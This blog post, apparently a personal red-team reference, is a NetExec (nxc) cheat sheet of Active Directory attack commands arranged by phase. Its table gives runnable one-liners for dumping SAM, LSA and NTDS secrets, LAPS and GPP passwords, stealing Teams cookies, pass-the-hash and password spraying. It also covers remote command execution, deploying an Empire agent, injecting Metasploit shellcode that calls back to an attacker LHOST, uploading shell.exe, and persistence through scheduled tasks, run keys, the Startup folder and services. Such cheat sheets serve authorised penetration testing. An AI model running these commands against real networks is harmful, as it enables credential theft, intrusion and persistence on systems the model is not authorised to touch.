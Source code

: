 ```yaml
---
layout: post
title: Netexec CheatSheet
date: 30-06-2025
categories: [CheatSheet]
tag: [Red Team, Pentest, AD]
---
```


# Netexec/nxc CheatSheet:

Below is a **comprehensive table of NetExec (nxc) commands**, organized by the main phases of a typical penetration test: **Enumeration, Credential Access, Exploitation, Lateral Movement, Post-Exploitation, and Persistence**. This table is designed for quick reference and covers the most relevant options and modules for each phase[^1][^2][^3].

## NetExec / nxc Command Table by Phase

| **Phase** | **Command / Option** | **Description** | **Example** |
| :-- | :-- | :-- | :-- |
| **Enumeration** | `nxc smb <target>` | Basic SMB enumeration | `nxc smb 10.0.0.5` |
|  | `--shares` | List SMB shares | `nxc smb 10.0.0.5 --shares` |
|  | `--users` | Enumerate users | `nxc smb 10.0.0.5 --users` |
|  | `--groups` | Enumerate groups | `nxc smb 10.0.0.5 --groups` |
|  | `--computers` | List computers | `nxc smb 10.0.0.5 --computers` |
|  | `--sessions` | List active SMB sessions | `nxc smb 10.0.0.5 --sessions` |
|  | `--disks` | List disks | `nxc smb 10.0.0.5 --disks` |
|  | `--loggedon-users` | List logged-on users | `nxc smb 10.0.0.5 --loggedon-users` |
|  | `--pass-pol` | Show password policy | `nxc smb 10.0.0.5 --pass-pol` |
|  | `--rid-brute` | RID brute-force for user discovery | `nxc smb 10.0.0.5 --rid-brute` |
|  | `ldap` protocol | AD enumeration (users, groups, etc.) | `nxc ldap 10.0.0.5 -u user -p pass --users` |
|  | `-M bloodhound` | Collect BloodHound data | `nxc ldap 10.0.0.5 -u user -p pass -M bloodhound` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u user -p pass -M enum_dns` |
|  | `-M enum-avproducts` | Enumerate installed AV/EDR products | `nxc smb 10.0.0.5 -u user -p pass -M enum-avproducts` |
|  | `ftp` protocol | List files/directories | `nxc ftp 10.0.0.5 -u user -p pass --ls` |
| **Credential Access** | `-u <USERNAME> -p <PASSWORD>` | Basic authentication | `nxc smb 10.0.0.5 -u admin -p 'Password123!'` |
|  | `-H <LM:NT>` | Pass-the-hash | `nxc smb 10.0.0.5 -u admin -H aad3b435b51404eeaad3b435b51404ee:hash` |
|  | `-U <userfile> -P <passfile>` | User/password spraying | `nxc smb 10.0.0.5 -U users.txt -P passwords.txt` |
|  | `--lsa` | Dump LSA secrets | `nxc smb 10.0.0.5 -u admin -p pass --lsa` |
|  | `--sam` | Dump SAM database | `nxc smb 10.0.0.5 -u admin -p pass --sam` |
|  | `--ntds` | Dump NTDS.dit (domain hashes) | `nxc smb 10.0.0.5 -u admin -p pass --ntds` |
|  | `-M gpp_password` | Dump Group Policy Preferences passwords | `nxc smb 10.0.0.5 -u admin -p pass -M gpp_password` |
|  | `--laps` | Retrieve LAPS passwords | `nxc smb 10.0.0.5 -u admin -p pass --laps` |
|  | `-M keypass_discover` | Search for KeePass files | `nxc smb 10.0.0.5 -u admin -p pass -M keypass_discover` |
|  | `-M msol` | Retrieve MSOL account password | `nxc smb 10.0.0.5 -u admin -p pass -M msol` |
| **Exploitation** | `-x <cmd>` | Execute command (CMD) | `nxc smb 10.0.0.5 -u admin -p pass -x whoami` |
|  | `-X <pscmd>` | Execute PowerShell command | `nxc smb 10.0.0.5 -u admin -p pass -X '$PSVersionTable'` |
|  | `-M empire_exec -o LISTENER=<listener>` | Deploy Empire agent | `nxc smb 10.0.0.5 -u admin -p pass -M empire_exec -o LISTENER=http` |
|  | `-M met_inject -o LHOST=<attacker> LPORT=<port>` | Inject Metasploit shellcode | `nxc smb 10.0.0.5 -u admin -p pass -M met_inject -o LHOST=10.0.0.1 LPORT=4444` |
|  | `--get-file <remote> <local>` | Download file from target | `nxc smb 10.0.0.5 -u admin -p pass --get-file \\C$\creds.txt creds.txt` |
|  | `--put-file <local> <remote>` | Upload file to target | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe \\C$\Temp\shell.exe` |
| **Lateral Movement** | `-M rdp` | Enable RDP on target | `nxc smb 10.0.0.5 -u admin -p pass -M rdp` |
|  | `-M impersonate` | List tokens for privilege escalation | `nxc smb 10.0.0.5 -u admin -p pass -M impersonate` |
|  | `-M install_elevated` | Check for AlwaysInstallElevated privilege | `nxc smb 10.0.0.5 -u admin -p pass -M install_elevated` |
|  | `-M get_netconnections` | Get current network connections | `nxc smb 10.0.0.5 -u admin -p pass -M get_netconnections` |
|  | `mssql` protocol | Lateral movement via MSSQL | `nxc mssql 10.0.0.5 -u sa -p pass -x whoami` |
| **Post-Exploitation** | `--sessions` | List active sessions | `nxc smb 10.0.0.5 -u admin -p pass --sessions` |
|  | `--local-groups` | List local groups | `nxc smb 10.0.0.5 -u admin -p pass --local-groups` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u admin -p pass -M enum_dns` |
|  | `-M enum-avproducts` | List installed AV/EDR | `nxc smb 10.0.0.5 -u admin -p pass -M enum-avproducts` |
|  | `-M teams_localdb` | Steal Teams cookies | `nxc ldap 10.0.0.5 -u admin -p pass -M teams_localdb` |
|  | `rdp` protocol | Take screenshot via RDP | `nxc rdp 10.0.0.5 -u admin -p pass --screenshot` |
| **Persistence** | `--x 'schtasks ...'` | Create scheduled task for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'schtasks /create ...'` |
|  | `--x 'reg add ...'` | Registry run key persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'reg add ...'` |
|  | `--put-file <PAYLOAD> "%APPDATA%\\...\\Startup\\<PAYLOAD>"` | Startup folder persistence | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe "%APPDATA%\\...\\Startup\\shell.exe"` |
|  | `--x 'sc create ...'` | Install service for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'sc create ...'` |
| **Advanced/Other** | `-L` | List available modules for protocol | `nxc smb -L` |
|  | `--obfs` | Obfuscate PowerShell commands | `nxc smb 10.0.0.5 -u admin -p pass -X '<pscmd>' --obfs` |
|  | `--bloodhound --collection All` | Run BloodHound collector | `nxc ldap 10.0.0.5 -u admin -p pass --bloodhound --collection All` |
|  | `nxcdb` | Interact with NetExec database | `nxcdb` |
|  | `workspace create <name>` | Create new workspace | `nxcdb (default) > workspace create pentest1` |
|  | `workspace <name>` | Switch workspace | `nxcdb (default) > workspace pentest1` |

**Notes:**

- Replace `<target>`, `<USERNAME>`, `<PASSWORD>`, `<listener>`, `<attacker>`, `<PAYLOAD>`, etc., with your actual values.
- Many commands can be chained, e.g., `nxc smb 10.0.0.5 -u admin -p pass --sam --lsa --dpapi`[^3].
- Use `-h` or `--help` after any protocol or module for more options.

**References:**

- [StationX NetExec Cheat Sheet](https://www.stationx.net/netexec-cheat-sheet/)[^1]
- [Ben Heater’s NetExec Notes](https://notes.benheater.com/books/active-directory/page/netexec)[^2]
- [NetExec Wiki](https://www.netexec.wiki)[^4]
- [seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)[^3]
- [NetExec Database Usage](https://www.netexec.wiki/getting-started/database-general-usage)[^5]
- https://www.linkedin.com/posts/housenathan_netexec-cheat-sheet-essential-commands-activity-7300440179683610624-WxmG
- https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-shares/
- https://research.splunk.com/endpoint/adbff89c-c1f2-4a2e-88a4-b5e645856510/
- https://github.com/Pennyw0rth/NetExec-Wiki/blob/main/getting-started/selecting-and-using-a-protocol.md

